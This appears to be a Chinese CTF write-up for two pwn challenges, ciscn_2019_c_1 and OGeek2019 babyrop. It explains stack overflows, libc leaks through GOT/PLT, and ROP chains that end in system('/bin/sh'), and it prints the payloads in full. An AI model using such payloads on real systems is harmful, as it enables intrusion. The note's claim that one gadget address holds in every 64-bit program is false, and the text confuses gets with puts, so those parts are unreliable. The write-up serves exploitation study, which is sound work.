 ## ciscn_2019_c_1

```c
int encrypt()
{
  char s[48]; // [rsp+0h] [rbp-50h] BYREF
  // ...
  gets(s);
}
```

`gets`缓冲区溢出，但是程序中没有`system('/bin/sh')`，需要泄露libc

### 前置知识

[GOT表和PLT表](https://www.jianshu.com/p/0ac63c3744dd)

简单来说，plt表中`lib_fun`项存的是got表中`lib_fun`项的地址；但第一次调用`lib_fun`函数之前，got表中`lib_fun`项存的是一些装载工作的代码地址；在第一次调用开始后，装载代码把got表中`lib_fun`项存储的变为其实际地址

### 泄露函数地址

libc动态链接库有以下两个性质：

- 随库的版本不同，库中函数的地址不同
- 同一版本的库，两个函数的地址偏移相等

通过第一条性质，一旦我获得了任意libc库的函数地址，就能通过数据库得到libc的版本信息；得到版本信息之后，通过第二条性质，我又能计算出目标函数及字符串的地址（在这里是`system()`和`"/bin/sh"`）

[libc database search](https://libc.blukat.me/)

为了得到某个libc库的函数地址，可以使用输出的方式；由于plt表和got表的行为，在输出一个libc函数的地址之前需要先调用它，这就使得gets成为不二之选：只要构造出`gets(gets在got表中的地址)`的调用，就能输出`gets`的真实地址了

接下来考虑`gets(gets在got表中的地址)`这个调用的构造，由于64位程序使用寄存器传参，其中第一个参数是`%rdi`，而通过溢出，我能够影响的只有栈；那么我该做的就是：把栈顶数据弹出到`%rdi`，也就是`pop %rdi`指令；当然，由于跳转到这条指令之后我还需要跳转到`gets@plt`这个函数，所以当然还需要一个`ret`。故，我需要在程序中找到这样一条指令：`pop %rdi; ret`（在每个64位C程序中，其地址是0x400c83）。

得到`gets`之后怎么办？我还没把`system("/bin/sh")`打出去呢！重新进一遍有漏洞的地方就好了。那就可以构造出合适的栈数据了，根据函数的调用规则，以及由于缓冲区溢出需要覆盖返回地址，是：溢出填充 + `pop_rdi_ret`（返回地址覆盖） + `puts_got`（puts参数） + `puts_plt`（puts函数地址） + `encrypt`（puts返回）

在本题中是`payload = b'a' * 0x58 + p64(0x400c83) + p64(elf_file.got['puts']) + p64(elf_file.plt['puts']) + p64(0x4009a0)`

### 打出`system("/bin/sh")`

打出了第一阶段的payload之后，我能够得到`gets`的真实地址了。在[libc database search](https://libc.blukat.me/)上搜索可以得到几个函数的偏移地址。

二阶段的payload构造原理和一阶段的相同，额外需要注意的是，有些系统对`system`函数的调用要求`%rsp`的低4位是0（参考：[在一些64位的glibc的payload调用system函数失败问题](http://blog.eonew.cn/archives/958)），靶机上就是这样一个系统。在本题中此时的`%rsp`低4位是8，只需要在栈上多叠一次`ret`指令（0x400c85）即可。

`payload = b'a' * 0x58 + p64(0x400c85) + p64(0x400c83) + p64(bin_sh) + p64(system)`

需要注意的是，`encrypt`函数对缓冲区中的字符进行了异或操作，可能需要复原一下（尽管在本exp中没有写也攻击成功了）

## [OGeek2019]babyrop

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h] BYREF
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}

int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s[32]; // [esp+Ch] [ebp-4Ch] BYREF
  char buf[32]; // [esp+2Ch] [ebp-2Ch] BYREF
  ssize_t v5; // [esp+4Ch] [ebp-Ch]

  memset(s, 0, sizeof(s));
  memset(buf, 0, sizeof(buf));
  sprintf(s, "%ld", a1);
  v5 = read(0, buf, 0x20u);
  buf[v5 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return (unsigned __int8)buf[7];
}

ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf[231]; // [esp+11h] [ebp-E7h] BYREF

  if ( a1 == 127 )
    result = read(0, buf, 0xC8u);
  else
    result = read(0, buf, a1);
  return result;
}
```

`main()`函数产生一个随机的整数；第一个函数将该整数字符串化，让用户输入一个字符串进行比较，相等时返回用户输入的第8个字符a；此作为第三个函数的输入，从`stdin`读取a字节的数据，而缓冲区距离栈顶0xe7字节；所以解题点是缓冲区溢出

`strncmp(s1, s2, 0)`的调用总是返回0的，故构造`strlen(buf)`为0，又因为`read()`函数读取固定大小，故只需第一个输入的首字节`\x00`；并且第一个输入的第8个字符a作为第三个函数的读取数量，应该是`\xff`；

`payload_a = b'\x00' + b'\xff'*0x18`

之后第二个输入就是缓冲区溢出覆盖返回地址了，由于程序中没有`system("/bin/sh")`，故需要构造rop；注意本题中靶机是32位，不需要`pop_rdi_ret`；已用过的输出函数有`write(stream, buf, size)`

payload = 填充 + write函数地址（用于泄露libc） + 漏洞函数地址（二次进入漏洞以调用`system("/bin/sh")`） + 1（stream=stdout） + write_got（buf=write_got） + 4（size=4）

但是，由于漏洞函数`sub_80487D0(a1)`需要额外参数，而栈在构造rop时已经被破坏了，（在以下payload中，会调用`sub_80487D0(a1=p32(elf_file.got['write']))`）故只能返回到无参数的`main()`函数中

`payload_b = b'a'*(0xe7+4) + p32(elf_file.plt['write']) + p32(0x8048825) + p32(1) + p32(elf_file.got['write']) + p32(4)`

之后利用远端回显的地址和本题提供的.so文件，计算出目标函数信息，再打出一次`payload_a`二次进入漏洞函数，打出`system("/bin/sh")`

`payload_c = b'a'*(0xe7+4) + p32(system) + b'c'*4 + p32(bin_sh)`
